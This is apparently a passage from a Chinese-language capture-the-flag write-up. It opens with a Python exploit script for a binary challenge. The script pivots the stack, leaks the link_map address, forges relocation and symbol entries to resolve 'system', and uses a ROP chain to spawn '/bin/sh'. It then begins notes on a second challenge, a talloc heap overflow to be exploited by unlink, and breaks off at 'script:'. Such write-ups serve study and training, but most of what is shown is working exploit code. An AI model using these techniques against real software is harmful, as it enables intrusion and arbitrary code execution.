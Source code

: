 ```
    leave_ret = 0x40059d
    leak_stack_povit = 'a' * 0x10 + l64(0x601b00 - 0x8) + l64(leave_ret)
    io.write(leak_stack_povit)
 
    io.read_until(':')
    link_map_addr = l64(io.read(8)) + 0x28
    print hex(link_map_addr)
 
    r_offset = 0x601970 # a writable addr
    r_sym = 0x155e8
 
    fake_relro = generate_fake_relro(r_offset, r_sym).ljust(0x20, 'x00')
 
    st_name = 0x200d68
    fake_sym = generate_fake_sym(st_name).ljust(0x20, 'x00')
 
    write_16byte(io, link_map_addr+0x1c8, 'x00'*0x10)
    #write_16byte(io, 0x600858, l64(0x6ffffff0)+l64(0x3d57d6))
 
    for i in range(0, len(fake_relro), 8):
        write_16byte(io, 0x601058+i, fake_relro[i:i+8]+'x00'*8)
    for i in range(0, len(fake_sym), 8):
        write_16byte(io, 0x601078+i, fake_sym[i:i+8]+'x00'*8)
 
    write_16byte(io, 0x601098, 'system'.ljust(16, 'x00'))
    write_16byte(io, 0x601a50, '/bin/sh'.ljust(16, 'x00'))
 
    plt0 = 0x400420
 
    rop = l64(pop_rdi_ret) + l64(0x601a50)
    index = 0x155dc
    rop += l64(plt0) + l64(index)
 
    for i in range(0, len(rop), 8):
        write_16byte(io, 0x601980+i, rop[i:i+8]+'x00'*8)
 
    stack_povit = 'a'*0x10 + l64(0x601980-0x8) + l64(leave_ret)
    io.write(stack_povit)
 
    interact(io)
 
exp(target)
```

**<br>**

**Pwn-note**

漏洞存在于edit中，有堆溢出。

此题采用talloc，不过talloc_free内部会调用free函数，所以采用unlink方法进行利用。

脚本：
